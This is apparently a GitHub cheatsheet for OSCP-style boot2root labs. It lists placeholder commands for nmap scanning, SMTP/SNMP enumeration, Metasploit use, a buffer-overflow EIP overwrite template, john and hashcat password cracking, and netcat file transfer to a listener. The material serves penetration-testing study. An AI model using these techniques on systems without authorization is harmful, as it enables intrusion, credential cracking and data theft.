 # OSCP Cheatsheet

This cheatsheet was created to help individuals who are new to boot2root style machines.

Cheatsheet is divided into three sections:

* Enumeration
* Exploitation
* Privilege Escalation

## Reconnaissance

### Network Enumeration

#### Nmap Commands

- Basic scan: `nmap <target>`
- All ports scan: `nmap -p- <target>`
- Service version detection: `nmap -sV <target>`
- Operating system detection: `nmap -O <target>`
- UDP scan: `nmap -sU <target>`

#### FTP Enumeration



### Other Tools

- DNS enumeration: `dnsenum <target>`
- SMTP enumeration: `smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t <target>`
- SNMP enumeration: `onesixtyone -c /usr/share/doc/onesixtyone/dict.txt <target>`

## Exploitation

### Metasploit Commands

- Search for exploit: `search <exploit>`
- Use exploit: `use <exploit>`
- Set target IP: `set RHOST <target>`
- Set payload: `set PAYLOAD <payload>`
- Show options: `show options`
- Run exploit: `exploit`

### Buffer Overflow

- Fuzzing: `msf-pattern_create -l <length>`
- Finding offset: `msf-pattern_offset -q <EIP value>`
- Overwriting EIP: `"\x41" * <offset> + <EIP value> + "\x43" * (<buffer length> - <offset> - 4)`

## Post-Exploitation

### Privilege Escalation

- Linux: `sudo -l`
- Windows: `whoami /priv`

### Password Cracking

- John the Ripper: `john --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>`
- Hashcat: `hashcat -m <hash mode> <hashfile> <wordlist>`

## Miscellaneous

### Useful Commands

- Download file: `wget <URL>`
- Transfer file: `nc -nv <listening IP> <port> < file`
- Create listener: `nc -nlvp <port>`
